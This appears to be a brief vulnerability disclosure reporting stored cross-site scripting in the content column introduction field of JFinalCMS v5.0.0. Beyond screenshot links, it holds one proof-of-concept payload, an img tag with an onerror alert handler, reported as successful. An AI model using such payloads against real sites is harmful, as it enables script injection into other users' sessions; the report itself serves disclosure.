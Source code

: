 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

Storage xss exists in the content column introduction

![image-20250228190504792](C:\Users\xia\AppData\Roaming\Typora\typora-user-images\image-20250228190504792.png)

![image-20250228190012776](C:\Users\xia\AppData\Roaming\Typora\typora-user-images\image-20250228190012776.png)

poc:<img/src=1 onerror=alert(1)>



successed

![image-20250228185811390](C:\Users\xia\AppData\Roaming\Typora\typora-user-images\image-20250228185811390.png)